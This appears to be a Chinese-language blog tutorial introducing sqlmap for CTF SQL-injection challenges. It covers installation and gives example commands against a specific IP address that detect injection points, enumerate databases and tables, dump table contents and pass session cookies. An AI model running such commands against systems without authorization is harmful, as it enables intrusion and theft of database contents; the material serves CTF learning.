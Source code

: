 ```yaml
---
title: Sqlmap 介绍
date: 2023-01-25 20:40:25
keywords: sqlmap, ctf tools, ctf 工具, ctf 工具合集, ctf 工具介绍
description: Sqlmap 是检测服务端是否存在SQL注入漏洞的自动化工具。因为其强大的检测能力，常用在CTF比赛的SQL注入类型的题目中。它的主要功能是扫描、发现并利用指定URL中的SQL注入漏洞，支持的数据库类型非常多。
---
```


Sqlmap 是检测服务端是否存在SQL注入漏洞的自动化工具。因为其强大的检测能力，常用在CTF比赛的SQL注入类型的题目中。它的主要功能是扫描、发现并利用指定URL中的SQL注入漏洞，支持的数据库类型非常多。

## 安装

在 macOS 中，可以通过 `brew install sqlmap` 安装并通过命令行使用。

> 想知道 brew 怎么使用，可以参考 [Homebrew 介绍与上手指南](http://www.edulinks.cn/2020/06/23/20200623-homebrew-introduction/)

## 使用

sqlmap 常用命令及参数如下：

```sh
# 检测指定 URL 的注入点情况
$ sqlmap -u http://223.112.5.156:59050/index.php\?id\=1
# 检测指定 URL 的注入点情况，并指定更多的参数，提高成功率
$ sqlmap -u http://223.112.5.156:59050/index.php\?id\=1 --level 2 --time-sec=10
# 指定注入点，查看当前数据库
$ sqlmap -u http://223.112.5.156:59050/index.php\?id\=1 --current-db
# 指定注入点，指定数据库名，查看数据库中所有表
$ sqlmap -u http://223.112.5.156:59050/index.php\?id\=1 -D cyber --tables
# 指定注入点，指定数据库名和表名，查看表中具体内容
$ sqlmap -u http://223.112.5.156:59050/index.php\?id\=1 -D cyber -T cyber --dump

# 利用 POST 参数进行探测, search 为参数
$ sqlmap -u http://223.112.5.156:59050/ --data=search=1  --current-db

# 当网站需要认证时，需要带上 Cookie ，可以利用 --cookie 参数
$ sqlmap -u http://223.112.5.156:59050/index.php\?module\=index\&do\=member\&uid\=5  --level 2 --time-sec=10 --cookie "user=b73565ee4c6fd8009b9226e76d691d06; PHPSESSID=o5psg7sv53froq22u789dggbp0"
```

## 参考资料

1. [sqlmap](https://sqlmap.org/)
1. [sqlmap简介及简单应用实例](https://blog.csdn.net/m0_64378913/article/details/124439539)
